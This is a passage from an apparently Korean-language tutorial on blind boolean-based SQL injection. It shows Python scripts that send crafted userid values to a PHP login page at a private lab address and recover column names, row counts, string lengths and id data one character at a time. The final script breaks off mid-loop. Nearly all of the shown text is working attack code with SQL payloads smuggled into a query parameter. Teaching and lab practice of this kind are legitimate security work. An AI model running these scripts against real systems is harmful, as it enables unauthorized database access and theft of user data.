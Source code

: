 ```py
        for s in string.printable.strip():
            QUERY   = requests.utils.quote(f'test\' AND ASCII(SUBSTR((SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA=\'test\' AND TABLE_NAME=\'user\' LIMIT {i},1),{j+1},1))={ord(s)}#')
            URL     = TARGET + f'?userid={QUERY}&password=123'
            REQUEST = requests.get(url=URL)
            if REQUEST.text == 'Welcome test': COLUMN_NAME += s
    print(f'{COLUMN_NAME}')
```

결과는 다음과 같다.

	id
    pw

## **데이터 확인**

참과 거짓의 결과 정보를 이용하여 데이터를 획득해보자.

먼저 COUNT를 이용하여 데이터의 수를 확인하자.

SELECT의 이중쿼리의 경우 출력결과가 1개로 나와야 하며 괄호를 이용하여 감싸준다.

URL 인코딩을 시키기 위해 requests.utils.quote를 사용한다.

```py
QUERY       = requests.utils.quote(f'test\' AND (SELECT COUNT(id) FROM test.user)={i}#')
```

데이터 수만큼 반복하여 다음으로 데이터의 문자열 길이를 알아내자.

```py
QUERY       = requests.utils.quote(f'test\' AND LENGTH((SELECT id FROM test.user LIMIT {i},1))={j}#')
```

다시 SUBSTR로 문자열을 하나씩 확인한다.

```py
QUERY   = requests.utils.quote(f'test\' AND ASCII(SUBSTR((SELECT id FROM test.user LIMIT {i},1),{j+1},1))={ord(s)}#')
```

다음의 Full Code로 모든 id 컬럼의 데이터를 확인해보자.

```py
import requests
import string

TARGET          = 'http://192.168.0.58/index.php'
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'test\' AND (SELECT COUNT(id) FROM test.user)={i}#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    REQUEST     = requests.get(url=URL)
    if REQUEST.text == 'Welcome test':
        RESULT_LENGTH = i
        break
print(f'Number of data : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    DATA_LENGTH    = 0
    DATA           = ''
    for j in range(100):
        QUERY       = requests.utils.quote(f'test\' AND LENGTH((SELECT id FROM test.user LIMIT {i},1))={j}#')
        URL         = TARGET + f'?userid={QUERY}&password=123'
        REQUEST     = requests.get(url=URL)
        if REQUEST.text == 'Welcome test': DATA_LENGTH = j
```